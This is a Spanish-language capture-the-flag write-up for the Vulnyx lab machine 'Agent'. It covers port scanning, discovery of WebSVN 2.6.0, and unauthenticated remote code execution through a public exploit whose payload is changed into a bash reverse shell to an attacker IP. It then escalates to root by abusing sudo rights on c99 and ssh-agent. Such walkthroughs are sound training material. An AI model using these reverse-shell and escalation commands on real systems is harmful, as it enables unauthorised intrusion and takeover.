

# Agent

> 🧠 **Plataforma:** Vulnyx
>
> 💻 **Sistema operativo:** Linux
>
> 🎯 **Nivel:** Very Easy
>
> ✅ **Estado:** Done
>
> 📘 **Curso eJPT:** yes
>
> 🗓️ **Fecha de creación:** 5 de abril de 2025 15:41
>
> 🌐 **IP:** `192.168.0.214`

---


## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Identificamos el equipo por la MAC 08:00 perteneciente a VirtualBox

Identificamos sistema operativo y vemos que por ttl, corresponde a Linux

```bash
whichSystem.py 192.168.0.214                                                                                                                               

	192.168.0.214 (ttl -> 64): Linux
```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 192.168.0.214 -oG targeted

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:7C:C8:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
nmap -p22,80 -sCV 192.168.0.214 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
MAC Address: 08:00:27:7C:C8:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Identificación de vulnerabilidades**
    - 22 SSH
    - 80 HTTP (nginx)
    

Analizamos la web y vemos la pagina de bienvenida de Nginx

Vamos a realizar fuzzing para ver si encontramos información relacionada con el servidor web:

```bash
dirb http://192.168.0.214                                                                                                        ✔  15:52:44  

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Apr  5 15:52:55 2025
URL_BASE: http://192.168.0.214/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.0.214/ ----
+ http://192.168.0.214/index.html (CODE:200|SIZE:615)                                                                                                                                    
==> DIRECTORY: http://192.168.0.214/websvn/                                                                                                                                              
                                                                                                                                                                                         
---- Entering directory: http://192.168.0.214/websvn/ ----
==> DIRECTORY: http://192.168.0.214/websvn/cache/                                                                                                                                        
==> DIRECTORY: http://192.168.0.214/websvn/include/                                                                                                                                      
+ http://192.168.0.214/websvn/index.php (CODE:302|SIZE:0)                                                                                                                                
==> DIRECTORY: http://192.168.0.214/websvn/javascript/                                                                                                                                   
==> DIRECTORY: http://192.168.0.214/websvn/languages/                                                                                                                                    
==> DIRECTORY: http://192.168.0.214/websvn/templates/                                                                                                                                    
                                                                                                                                                                                         
---- Entering directory: http://192.168.0.214/websvn/cache/ ----
+ http://192.168.0.214/websvn/cache/tmp (CODE:200|SIZE:72)                                                                                                                               
                                                                                                                                                                                         
---- Entering directory: http://192.168.0.214/websvn/include/ ----
+ http://192.168.0.214/websvn/include/header (CODE:200|SIZE:856)                                                                                                                         
                                                                                                                                                                                         
---- Entering directory: http://192.168.0.214/websvn/javascript/ ----
                                                                                                                                                                                         
---- Entering directory: http://192.168.0.214/websvn/languages/ ----
                                                                                                                                                                                         
---- Entering directory: http://192.168.0.214/websvn/templates/ ----
```

Encontramos la ruta : / websv



Vemos que hace alusión a 

- WebSVN 2.6.0
- Apache Subversion 1.14.2

Buscamos si hay vulnerabilidades disponibles

```bash
searchsploit websvn 2.6.0
Websvn 2.6.0 - Remote Code Execution (Unauthenticated)  | php/webapps/50042.py
```

Revisamos el exploit y modificamos la parte del PAYLOAD para que la revershell apunte a nuestra maquina:

```bash
PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.115/4444 0>&1'”
```

## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Exploit 50042

Nos ponemos en escucha con netcat y ejecutamos el exploit para recibir la revershell

```bash
sudo python3 50042.py http://192.168.0.214/websvn 
[*] Request send. Did you get what you wanted?
```

Recibimos la revershell y hacemos tratamiento de la TTY

```bash
nc -lvnp 444
www-data@agent:~/html/websvn$ script -c bash /dev/null
ctrZ
stty raw -echo; fg
reset xterm

www-data@agent:~/html/websvn$ export TERM=XTERM
www-data@agent:~/html/websvn$ export SHELL=BASH

www-data@agent:~/html/websvn$ 

```

A continuación listamos que permsios tenemos

```bash
sudo -l 
Matching Defaults entries for www-data on agent:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on agent:
    (dustin) NOPASSWD: /usr/bin/c99
```

Vemos que aparece un usuario llamado “dustin” y que podemos usar el binario c99 con permisos de root

### Explotación posterior

Buscamos en GTFObins y encontramos:

```bash
SUDO C99
sudo c99 -wrapper /bin/sh,-s .
```

```bash
www-data@agent:/tmp$ cd /usr/bin/
www-data@agent:/usr/bin$ sudo -u dustin c99 -wrapper /bin/sh,-s .
$ whoami
dustin

```

Ahora, listamos que permisos tenemos con este usuario y encontramos:

```bash
$ sudo -l
Matching Defaults entries for dustin on agent:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dustin may run the following commands on agent:
    (root) NOPASSWD: /usr/bin/ssh-agent
$ 
```

### Escalada de privilegios

Buscamos de nuevo el binario ssh-agent en GTFObins

```bash
sudo ssh-agent /bin/
```

Explotamos el binario

```bash
$ whoami
dustin
$ sudo ssh-agent /bin/sh
# whoami
root
$ cd /home/dustin
$ ls
user.txt
$ cd /root
$ ls
root.txt

```